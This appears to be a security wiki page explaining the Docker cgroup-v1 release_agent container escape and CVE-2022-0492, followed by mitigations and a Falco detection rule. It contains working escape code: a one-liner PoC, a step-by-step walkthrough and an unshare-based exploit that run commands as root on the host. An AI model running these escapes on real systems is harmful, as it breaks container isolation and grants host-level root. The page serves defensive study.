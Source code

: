 # Docker release_agent cgroups escape


**For further details, refer to the** [[https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/|**original blog post**]]**.** This is just a summary:

---

## Classic PoC (2019)

```shell
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab
touch /o; echo $t/c >$d/release_agent;echo "#!/bin/sh
$1 >$t/o" >/c;chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```
```
The PoC abuses the **cgroup-v1** `release_agent` feature: when the last task of a cgroup that has `notify_on_release=1` exits, the kernel (in the **initial namespaces on the host**) executes the program whose pathname is stored in the writable file `release_agent`.  Because that execution happens with **full root privileges on the host**, gaining write access to the file is enough for a container escape.

### Short, readable walk-through

1. **Prepare a new cgroup**

   ```shell
   mkdir /tmp/cgrp
   mount -t cgroup -o rdma cgroup /tmp/cgrp   # or –o memory
   mkdir /tmp/cgrp/x
   echo 1 > /tmp/cgrp/x/notify_on_release
   ```

2. **Point `release_agent` to attacker-controlled script on the host**

   ```shell
   host_path=$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)
   echo "$host_path/cmd" > /tmp/cgrp/release_agent
   ```

3. **Drop the payload**

   ```shell
   cat <<'EOF' > /cmd
#!/bin/sh
ps aux > "$host_path/output"
EOF
   chmod +x /cmd
   ```

4. **Trigger the notifier**

   ```shell
   sh -c "echo $$ > /tmp/cgrp/x/cgroup.procs"   # add ourselves and immediately exit
   cat /output                                  # now contains host processes
   ```

---

## 2022 kernel vulnerability – CVE-2022-0492

In February 2022 Yiqi Sun and Kevin Wang discovered that **the kernel did *not* verify capabilities when a process wrote to `release_agent` in cgroup-v1** (function `cgroup_release_agent_write`).

Effectively **any process that could mount a cgroup hierarchy (e.g. via `unshare -UrC`) could write an arbitrary path to `release_agent` without `CAP_SYS_ADMIN` in the *initial* user namespace**.  On a default-configured, root-running Docker/Kubernetes container this allowed:

* privilege escalation to root on the host; ↗
* container escape without the container being privileged.

The flaw was assigned **CVE-2022-0492** (CVSS 7.8 / High) and fixed in the following kernel releases (and all later):

* 5.16.2, 5.15.17, 5.10.93, 5.4.176, 4.19.228, 4.14.265, 4.9.299.

Patch commit: `1e85af15da28 "cgroup: Fix permission checking"`.

### Minimal exploit inside a container

```bash
# prerequisites: container is run as root, no seccomp/AppArmor profile, cgroup-v1 rw inside
apk add --no-cache util-linux  # provides unshare
unshare -UrCm sh -c '
  mkdir /tmp/c; mount -t cgroup -o memory none /tmp/c;
  echo 1 > /tmp/c/notify_on_release;
  echo /proc/self/exe > /tmp/c/release_agent;     # will exec /bin/busybox from host
  (sleep 1; echo 0 > /tmp/c/cgroup.procs) &
  while true; do sleep 1; done
'
```
```If the kernel is vulnerable the busybox binary from the *host* executes with full root.

### Hardening & Mitigations

* **Update the kernel** (≥ versions above).  The patch now requires `CAP_SYS_ADMIN` in the *initial* user namespace to write to `release_agent`.
* **Prefer cgroup-v2** – the unified hierarchy **removed the `release_agent` feature completely**, eliminating this class of escapes.
* **Disable unprivileged user namespaces** on hosts that do not need them:
  ```shell
  sysctl -w kernel.unprivileged_userns_clone=0
  ```
* **Mandatory access control**: AppArmor/SELinux policies that deny `mount`, `openat` on `/sys/fs/cgroup/**/release_agent`, or drop `CAP_SYS_ADMIN`, stop the technique even on vulnerable kernels.
* **Read-only bind-mask** all `release_agent` files (Palo Alto script example):
  ```shell
  for f in $(find /sys/fs/cgroup -name release_agent); do
      mount --bind -o ro /dev/null "$f"
  done
  ```

## Detection at runtime

[`Falco`](https://falco.org/) ships a built-in rule since v0.32:

```yaml
- rule: Detect release_agent File Container Escapes
  desc: Detect an attempt to exploit a container escape using release_agent
  condition: open_write and container and fd.name endswith release_agent and
             (user.uid=0 or thread.cap_effective contains CAP_DAC_OVERRIDE) and
             thread.cap_effective contains CAP_SYS_ADMIN
  output: "Potential release_agent container escape (file=%fd.name user=%user.name cap=%thread.cap_effective)"
  priority: CRITICAL
  tags: [container, privilege_escalation]
```
```
The rule triggers on any write attempt to `*/release_agent` from a process inside a container that still wields `CAP_SYS_ADMIN`.

## References

* [[https://unit42.paloaltonetworks.com/cve-2022-0492-cgroups/|Unit 42 – CVE-2022-0492: container escape via cgroups]] – detailed analysis and mitigation script.
* [[https://sysdig.com/blog/detecting-mitigating-cve-2022-0492-sysdig/|Sysdig Falco rule & detection guide]]

